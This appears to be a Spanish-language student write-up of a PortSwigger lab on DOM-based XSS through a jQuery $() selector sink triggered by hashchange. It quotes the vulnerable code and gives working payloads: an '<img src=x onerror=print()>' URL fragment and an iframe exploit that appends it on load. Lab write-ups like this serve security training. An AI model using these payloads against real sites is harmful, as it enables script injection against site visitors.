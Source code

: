 # 06 Lab: DOM XSS in jQuery selector sink using a hashchange event

```jsx
This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.

To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.
```

![image.png](06%20Lab%20DOM%20XSS%20in%20jQuery%20selector%20sink%20using%20a%20has%2017efab5460ec81b7a100d989cedfc240/image.png)

```jsx
$(window).on('hashchange', function(){
	var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
	if (post) post.get(0).scrollIntoView();
});  
```

## Teoría

- **`$(window).on('hashchange', function(){`**: Este código está configurando un evento en la ventana del navegador que se activa cuando cambia el **hash** de la URL (la parte después del `#`).
- Por ejemplo, si la URL cambia de `www.ejemplo.com/#section1` a `www.ejemplo.com/#section2`, se desencadena el evento `hashchange`. No podemos cambiar el

Antes de usar la parte del servidor exploit, accederemos a este enlace, con eso demostramos que, despues del #, lo que siga se mostrará en la web, por ende podemos forzar el error-

[https://0a7700eb049d5826e6924156002700d9.web-security-academy.net/#<img src=x onerror=print()>](https://0a7700eb049d5826e6924156002700d9.web-security-academy.net/#%3Cimg%20src=x%20onerror=print()%3E)

![image.png](06%20Lab%20DOM%20XSS%20in%20jQuery%20selector%20sink%20using%20a%20has%2017efab5460ec81b7a100d989cedfc240/image%201.png)

Pasos para terminar el laboratorio

1. `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`
2. <iframe src="[https://0a7700eb049d5826e6924156002700d9.web-security-academy.net/#](https://0a7700eb049d5826e6924156002700d9.web-security-academy.net/#)" onload="this.src+='<img src=x onerror=print()>'"></iframe>

![image.png](06%20Lab%20DOM%20XSS%20in%20jQuery%20selector%20sink%20using%20a%20has%2017efab5460ec81b7a100d989cedfc240/image%202.png)

![image.png](06%20Lab%20DOM%20XSS%20in%20jQuery%20selector%20sink%20using%20a%20has%2017efab5460ec81b7a100d989cedfc240/image%203.png)